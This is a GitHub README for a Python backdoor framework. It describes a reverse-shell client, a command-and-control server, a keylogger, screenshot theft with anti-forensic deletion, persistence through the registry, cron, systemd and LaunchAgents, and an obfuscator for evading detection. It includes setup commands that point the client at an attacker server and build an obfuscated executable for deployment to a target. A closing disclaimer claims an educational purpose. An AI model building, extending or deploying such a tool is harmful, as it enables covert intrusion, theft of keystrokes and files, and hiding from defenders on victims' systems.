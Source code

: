 # Python Backdoor Framework

A comprehensive client-server backdoor framework written in Python. This toolkit provides a stable reverse shell connection with advanced features like file transfer, system persistence, and obfuscation capabilities.

## Components

1. `backdoor_client.py` - The basic backdoor client that connects back to the C2 server
2. `enhanced_server.py` - Command and control server to manage backdoor connections
3. `encrypted_backdoor_client.py` - Advanced backdoor client with strong encryption
4. `encrypted_server.py` - Encrypted command and control server with enhanced security
5. `obfuscator.py` - Tool to obfuscate the backdoor to evade detection

## Security Features

### Encryption

- **AES-128 encryption** (via Fernet) for all communications
- **HMAC authentication** to verify message integrity
- **SSL/TLS support** for secure communications
- **Password-based authentication** to prevent unauthorized connections
- **Key derivation** using PBKDF2 for stronger keys

### Anti-Forensic Capabilities

- **Secure screenshot capture** - Screenshots are securely deleted from the victim's system after sending
- **Memory-efficient processing** - Sensitive data is processed in memory when possible
- **Trace removal** - All temporary files are thoroughly wiped from the system
- **Pattern cleanup** - Searches for and removes any leftover files matching known patterns

## Setup

### Requirements

- Python 3.6+
- Required Python packages:
  ```
  pip install cryptography pyinstaller astor
  ```
  
For advanced features, install additional packages:
  ```
  pip install pillow psutil pynput
  ```

### Basic Usage

1. Edit the client configuration to set your C2 server IP and port:
   ```python
   # For basic backdoor
   backdoor = Backdoor(host="YOUR_SERVER_IP", port=4444)
   
   # For encrypted backdoor
   backdoor = EncryptedBackdoor(host="YOUR_SERVER_IP", port=4444, password="YOUR_PASSWORD")
   ```

2. Start the appropriate server:
   ```
   # For basic server
   python enhanced_server.py [custom_port]
   
   # For encrypted server
   python encrypted_server.py --port 4444 --password "YOUR_PASSWORD"
   ```

3. Deploy the backdoor client to the target system using one of the methods below.

### Obfuscation

Use the obfuscator to make the backdoor more difficult to detect:

```
python obfuscator.py -H YOUR_SERVER_IP -p 4444 -o obfuscated_backdoor.py
```

To create an executable:

```
python obfuscator.py -H YOUR_SERVER_IP -p 4444 -e --icon path/to/icon.ico
```

## Server Commands

Once a backdoor client connects to your server, you can use the following commands:

- `help` - Show available commands
- `list` - List all connected clients
- `connect <id>` - Connect to a specific client
- `disconnect` - Disconnect from the current session
- `download <file>` - Download a file from the client
- `upload <file>` - Upload a file to the client
- `sysinfo` - Show system information
- `persist` - Install persistence mechanisms
- `screenshot` or `grab_screen` - Take a screenshot and securely delete it from victim's system
- `keylogger_start` - Start keylogger (encrypted backdoor only)
- `keylogger_stop` - Stop keylogger (encrypted backdoor only)
- `keylogger_dump` - Show captured keystrokes (encrypted backdoor only)
- `clear` - Clear the screen
- `history` - Show command history
- `exit` or `quit` - Exit the server

## Advanced Features (Encrypted Backdoor)

### SSL/TLS Encryption

The encrypted backdoor uses SSL/TLS when available, with fallback to AES-128 encryption.

### HMAC Authentication

All messages include HMAC authentication to verify integrity and prevent tampering.

### Password Protection

The connection between the client and server is protected by a password.

### File Chunking

Large files are split into chunks for secure and reliable transfer.

### Anti-Forensic Screenshots

When taking screenshots, the encrypted backdoor:
1. Creates the screenshot in memory first
2. Saves to a temporary location with randomized name
3. Transfers the file to the attacker
4. Immediately and securely deletes the file
5. Performs a thorough cleanup of any similar files

## Persistence Mechanisms

The backdoor includes several persistence methods depending on the target operating system:

### Windows
- Startup folder installation
- Registry key addition
- Scheduled task (encrypted backdoor only)

### Linux
- Systemd service creation
- Crontab entry
- .bashrc modification (encrypted backdoor only)

### macOS
- LaunchAgent creation
- Login items (encrypted backdoor only)

## Detection Evasion

- The obfuscator tool creates heavily obfuscated code
- Variable and function renaming
- Junk code injection
- Compression and encoding of payload
- Anti-analysis techniques
- Removal of forensic evidence

## Disclaimer

This tool is provided for educational and authorized penetration testing purposes only. Unauthorized use of this software against systems you do not own or have permission to test is illegal and unethical.

The authors take no responsibility for any misuse of this software. Always obtain proper authorization before using any penetration testing tools.

## License

This project is for educational purposes only. 